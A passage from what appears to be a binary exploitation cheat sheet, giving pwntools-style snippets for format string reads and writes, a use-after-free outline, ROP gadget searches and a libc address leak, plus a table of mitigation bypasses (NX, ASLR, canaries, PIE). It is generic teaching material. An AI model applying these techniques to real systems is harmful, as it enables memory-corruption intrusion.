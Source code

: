 #### Format String

**Basic Format String:**
```python
# Read from stack
payload = b"%x." * 20

# Write to arbitrary address
payload = fmtstr_payload(offset, {target_addr: value})
```

#### Use After Free

**Heap Exploitation:**
```python
# Allocate chunk
malloc(0x20)
# Free chunk
free(chunk)
# Use freed chunk (vulnerability)
# Reallocate with controlled data
malloc(0x20)
```

### ROP Chains

**Find Gadgets:**
```bash
ROPgadget --binary ./binary | grep "pop rdi"
ropper --file ./binary --search "pop rdi"
```

**Leak Libc Address:**
```python
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

rop = ROP(elf)
rop.puts(puts_got)
rop.main()
```

### Modern Mitigations

| Mitigation | Bypass Technique |
|------------|------------------|
| NX/DEP | ROP/JOP chains |
| ASLR | Information leaks |
| Stack Canaries | Canary leaks/overwrites |
| PIE | Relative offsets |
| FORTIFY_SOURCE | Careful payload crafting |

---